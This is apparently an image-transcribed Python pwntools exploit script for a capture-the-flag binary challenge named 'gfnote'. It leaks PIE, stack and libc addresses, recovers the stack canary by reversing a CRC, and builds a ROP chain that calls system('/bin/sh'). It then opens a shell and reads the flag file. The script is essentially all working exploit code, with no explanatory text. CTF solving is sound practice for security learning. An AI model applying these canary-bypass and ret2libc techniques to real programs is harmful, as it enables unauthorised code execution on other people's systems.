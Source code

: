 ```py
pie_leak = pwn.u64(pwn.p64(pie_leak_big_endian)[::-1])
pwn.log.info(f"pie leak = {hex(pie_leak)}")

dummy_data = b"A" * 0x28
read(dummy_data)
leak_0x70 = write(0x70)
base_data = pwn.p32(0x70) + pwn.p32(0x28)
base_data += pwn.p64(stack_leak) + pwn.p64(pie_leak)
base_data += dummy_data
canary_leak_big_endian = crc_rev(leak_0x70, base=crc(base_data, leak_0x28))
canary_leak = pwn.u64(pwn.p64(canary_leak_big_endian)[::-1])
pwn.log.info(f"canary leak = {hex(canary_leak)}")
assert canary_leak & 0xFF == 0, "invalid canary null armor"

def leak_helper(idx):
    diff = 8 * idx
    dummy_data = b"A" * (0x28 + diff)
    read(dummy_data)
    leak_base = write(0x70 + diff)
    base_data = pwn.p32(0x70 + diff) + pwn.p32(0x28)
    base_data += pwn.p64(stack_leak) + pwn.p64(pie_leak)
    base_data += dummy_data
    leak_big_endian = crc_rev(leak_base, base=crc(base_data, leak_0x28))
    leak = pwn.u64(pwn.p64(leak_big_endian)[::-1])
    return leak

libc_leak = leak_helper(4)
pwn.log.info(f"libc leak = {hex(libc_leak)}")
libc_base = libc_leak - 0x00007fd12c32f1ca + 0x00007fd12c305000
pwn.log.info(f"libc base = {hex(libc_base)}")
assert libc_base & 0xFFF == 0, "libc base page unaligned"

libc = pwn.ELF("./libc.so.6", checksec=False)
pop_rdi_pop_rbp_ret = libc_base + 0x000000000002a873
libc_bin_sh = libc_base + list(libc.search(b"/bin/sh"))[0]
libc_system = libc_base + libc.symbols["system"]
pwn.log.info(f"pop rdi pop rbp ret = {hex(pop_rdi_pop_rbp_ret)}")
pwn.log.info(f"libc bin sh = {hex(libc_bin_sh)}")
pwn.log.info(f"libc system = {hex(libc_system)}")

payload = b"A" * 0x28 + pwn.flat(
    int(canary_leak),
    b"A" * 8,
    # ret addr
    int(pop_rdi_pop_rbp_ret), # stack alignment via 0x10
    int(libc_bin_sh),
    b"A" * 8,
    int(libc_system),
)
read(payload)

# exit and shell
io.sendlineafter(b"Choose >\n", b"3")
io.sendline("cat /home/gfnote/flag")

flag = io.recvn(39).decode()
assert "hspace{divide_well_recover_well_9af346}" == flag
pwn.log.success(f"{flag = }")

io.close()
```
